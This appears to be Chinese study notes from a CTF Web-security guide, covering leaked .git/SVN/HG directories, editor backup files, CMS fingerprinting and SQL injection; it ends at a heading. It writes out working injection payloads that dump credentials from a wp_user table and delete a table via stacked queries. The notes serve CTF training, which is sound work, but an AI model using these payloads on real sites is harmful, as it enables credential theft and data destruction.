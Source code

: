 # 第1章 Web入门
## 1.1 举足轻重的信息收集
### 1.1.1 敏感目录泄露
#### 1.git泄露
##### （1）常规git泄露  
使用https://github.com/denny0223/scrabble工具获取源代码  
##### （2）git回滚  
使用git reset，或者git log -stat查看每个commmit修改了哪些文件再用git diff HEAD commit-id查看当前版本和想查看的commit之间的变化  
##### （3）git分支  
手工进行文件提取  
##### （4）git泄露的其他利用
如.git/config文件夹中可能包含access_token信息，从而可以访问这个用户的其他仓库
#### 2.SVN泄露
推荐工具：https://github.com/kost/dvcs-ripper和Seay-svn（Windows下的源代码备份漏洞利用工具）
#### 3.HG泄露
推荐工具：https://github.com/kost/dvcs-ripper
#### 4.总结经验
字典非常重要，此外还可在某些工具的基础上二次开发，推荐工具：https://github.com/maurosoria/dirsearch 。对于重定向类型的问题，如果访问.git返回403，则试着访问.git/config，如果有文件返回则说明存在git泄露，反之一般不存在。SVN泄露一般在entries中爬取源代码，如果entries为空则注意wc.db文件是否存在，然后通过其中的checksum在pristine文件夹中获取源代码
### 1.1.2 敏感备份文件
#### 1.gedit备份文件
在Linux中用gedit编辑器保存后会生成后缀为“～”的文件，其文件内容就是刚编辑的内容
#### 2.vim备份文件
用vim编辑文件意外退出后时，会在当前目录生成备份文件，格式为：“.文件名.swp”。恢复SWP备份文件的办法是现在当前目录创建一个同名文件，再使用“vim -r flag”命令，即可得到意外退出时编辑的内容
#### 3.常规文件
robots.txt:记录一些目录和CMS版本信息
readme.md:记录CMS版本信息，甚至Github地址
www.zip/rar/tar.gz:往往是网站的源码备份
/index.php~或/index.php.bak:网站备份文件
#### 4.总结经验
可编写实时监控脚本监控SWP等备份文件。vim第一次意外退出生成*.swp，第二次为*.swo，第三次为*.swn，等等，此外还有*.un.文件名.swp类型的备份文件。在实际环境中，网站的备份可能是网站域名的压缩包
### 1.1.3 Banner识别
#### 1.自行搜集指纹库
Github上或其他扫描器搜集CMS指纹库
#### 2.使用已有工具
利用Wappalyzer工具
#### 3.总结经验
可试着随意输入一些URL，通过404页面和302跳转页面发现信息
### 1.1.4 题目经验总结
1.针对Windows服务器，大概率是寻找CMS在其上的漏洞   
2.在不知道密码和无法重置的情况下，通过CMS网站本身的特性，结合目录遍历来实现最后的RCE
## 1.2 CTF中的SQL注入
### 1.2.1 SQL注入基础
#### 1.2.1.1 数字型注入和UNION注入
?id=-1 union select 1,group_concat(table_name) from information.schema.tables where table_schema=database()  
?id=-1 union select 1,group_concat(column_name) from information_schema.columns where table_name='xxx'
#### 1.2.1.2 字符型注入和布尔盲注
?id=1' and (select mid((select concat(user,0x7e,pwd) from wp_user),1,1))='a'%23
?id=1' and (select mid((select concat(user,0x7e,pwd) from wp_user),2,1))='d'%23
#### 1.2.1.3 报错注入
updatexml在执行时第二个参数应该为合法XPATH路径，否则会在引发报错的同时将传入的参数输出：  
?id=1' or updatexml(1,concat(0x7e,(select pwd from wp_user)),1)%23  
当目标开启多语句执行的时候，可以采用多语句执行的方式修改数据库的任意结构和数据，称作堆叠注入：  
?id=1%27;delete%20%20from%20wp_files;%23
#### 1.2.1.4 总结
注入使用优先级：UNION注入>报错注入>布尔盲注>时间盲注
### 1.2.2 注入点
